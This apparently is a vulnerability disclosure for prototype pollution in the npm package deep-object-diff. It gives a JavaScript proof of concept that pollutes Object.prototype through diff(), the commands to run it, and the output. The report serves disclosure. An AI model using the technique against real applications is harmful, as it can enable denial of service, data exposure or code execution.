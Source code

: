 # Description

`deep-object-diff` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var deepObjectDiff = require("deep-object-diff")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
deepObjectDiff.diff(a, b);
console.log({}.name)
```

2. Execute the following commands in another terminal:

```bash
npm i deep-object-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
